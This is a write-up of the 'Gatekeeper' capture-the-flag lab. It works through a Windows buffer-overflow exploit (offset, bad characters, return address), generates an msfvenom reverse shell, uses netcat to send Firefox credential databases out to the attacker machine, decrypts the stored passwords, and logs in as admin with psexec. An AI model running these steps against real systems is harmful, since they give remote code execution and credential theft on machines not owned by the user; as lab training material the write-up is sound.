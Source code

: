 # Gatekeeper

## Scanning & Enumeration

Doing a nmap scan

```bash
nmap -p- -T4 gatekeeper -vv -sC
nmap -p135,445,139,3389,49161,49152,31337,49153,49154,49160,49164 -T4 -A gatekeeper -oN nmap.txt
```

Output:

```bash
```

#### Port 135/445 SMB

Listing smb shares

```bash
smbclient -L gatekeeper
```

We find a smb share called **Users**  

```bash
smbclient \\\\gatekeeper\\Users
```

If we try to get access and we find a **gatekeeper.exe** file

There is a buffer overflow here somewhere so I will try to exploit it  
We can spawn a windows instance running Immunity debugger  
In my case it was the box from **Buffer Overflow Prep** from THM

To get the **gatekeeper.exe** into our windows machine we can use:

```powershell
certutil -urlcache -split -f http://10.11.1.219/gatekeeper.exe
or
Invoke-WebRequest http://10.11.1.219/gatekeeper.exe -Outfile .\gatekeeper.exe
```

Running it shows as that it listens for connections...  
Doing an nmap scan we find out that a gate 31337 is open!!!!  

We now run it throught the Immunity Debugger  
nc into the machine and type a long string of bytes... It crashes  

Buffer Overflow!!

Following the methodology from the **Buffer Overflow Prep** we find:

It crashes somewhere around **150** characters

Our payload (200 chars) is:

```bash
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

Our offset is: **146**  
We also have 32 bit architecture, so we now (after the BBBB check) we move into
finding the bad chars.

```bash
python3 -c "print(146*'A' + '\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff')"
```

ESP: **015D19F8**

Bad chars: **\x00\x0a**

Our return address is: **\xC3\x14\x04\x08**

## Exploitation

First, we will create the payload and add it to our code

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.1.219 LPORT=4444 EXITFUNC=thread -b "\x00\x0a" -f py
```

After that we create a listener

```bash
nc -nvlp 4444
```

And run our script

```bash
python2 crasher.py
```

## Post Exploitation

After looking around in the machine for a long time and not founding
anything to exploit, I noticed the hint that the **Mayor** gave

`But beware, fire awaits on the other side`

Fire.. Firefox!!!

My first idea for no reason at all (I don't know exactly what am I doing),
was to maybe find some credentials in firefox cache or something

Searching and finding some articles about firefox, I figured out with
a little bit of help that firefox stores passwords in the:
`AppData\Roaming\Mozilla\Firefox\Profiles` directory.

I din't want to use metasploit so I downloaded a static binary of **nc**
in the machine and started mannually downloading the files
[transfers with nc](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/)
that [this](https://support.mozilla.org/en-US/kb/profiles-where-firefox-stores-user-data#w_finding-your-profile-without-opening-firefox)
article said where the password files.

I also found a tool called [firefox_decrypt](https://github.com/unode/firefox_decrypt)

So the files I downloaded where **key4.db, cert.db, logins.json, cookies.sqlite**

On my machine

```bash
nc -l -p 1234 > key4.db
```

On the gatekeeper machine

```bash
nc -w 3 10.11.1.219 1234 < key4.db
```

All that's left now it's to run the decryptor and hope we get in.

## Priviledge Escalation

In order to run the firefox_decryptor, I did

```bash
python2 firefox_decrypt ~/thm/medium/ctfs/gatekeeper/decr
```

And boom!! I got a hit. We have credentials for something

```bash
Website:   https://creds.com
Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'
```

Going back to the start and looking at the nmap scan.
We have smb open so let's try it.

```bash
smbclient --user=mayor \\\\10.10.80.38\\ADMIN$
```

It works!!!  
We also see that we can write into the smb forlder  
But I am lazy so with **psexec.py** from the impacket suite  
We get a nice shell.

```bash
psexec.py mayor:8CL7O1N78MdrCIsV@10.10.80.38 cmd
```

The root flag is located in the mayor's Desktop.

Amazing room! Had a lot of fun and learned a lot.

```json
```

